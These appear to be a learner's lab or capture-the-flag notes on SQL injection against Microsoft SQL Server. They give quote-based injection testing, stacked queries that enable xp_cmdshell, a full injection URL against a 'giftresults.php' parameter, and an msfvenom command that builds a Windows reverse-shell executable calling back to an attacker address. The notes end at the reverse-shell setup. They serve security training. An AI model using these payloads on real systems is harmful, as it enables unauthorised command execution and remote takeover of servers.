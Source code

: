 `;` signifies one statement's conclusion and another's commencement/initialization 

###### Testing for SQLi
- Search for any parameter fields, or hidden parameters
- submit the characters like single quotes `'` and double quotes `"`. These introduce syntax error's into  the query if not properly sanitized.
	- Try to trigger error's within the suspected SQLi parameter, see if it leaks any sensitive information. 

SQL Server Integration Services (SSIS) or custom application code, legacy applications may have opted to rely on **xp_cmdshell** to execute system-level commands to export the data. While this accomplishes the same task, it poses security and maintainability risks and grants excessive system access to the SQL Server.


it is possible to manually enable `xp_cmdshell` in SQL server through `EXECUTE` (`EXEC`)
queries. Still, it requires the database user to be a member of the `sysadmin` fixed server role or have the `ALTER SETTINGS` server-level permission to execute this command. However, misconfigurations that allow this execution are not uncommon.

###### xp_cmdshell
Stack the folloiwing commands (one method of $n$):
```SQL
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

This will first enable advanced configuration options in SQL server by setting `show advanced options` to `1`.  Then apply the change to the running configuration via the `RECONFIGURE` statement. next, we enable the `xp_cmdshell` procedure by setting `xp_cmdshell` to `1` and applying the change to the running configuration again.

payload would look as follows:
```bash
http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```


By requesting the URL with these parameters, we should be able to execute the stacked queries and enable the **xp_cmdshell** procedure. With this feature enabled, we can execute any Windows shell command through the `EXECUTE` (or `EXEC`) statement followed by the command name.

### Remote Code Execution
`certutil.exe` - Windows command line program that is a signed Windows Binary that allows us to make HTTP/s connection. 

**Setting  Up**: create a payload using `msfvenom` allowing us to eventually upgrade our SQL-injected "Shell" into a more standard `reverse shell`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
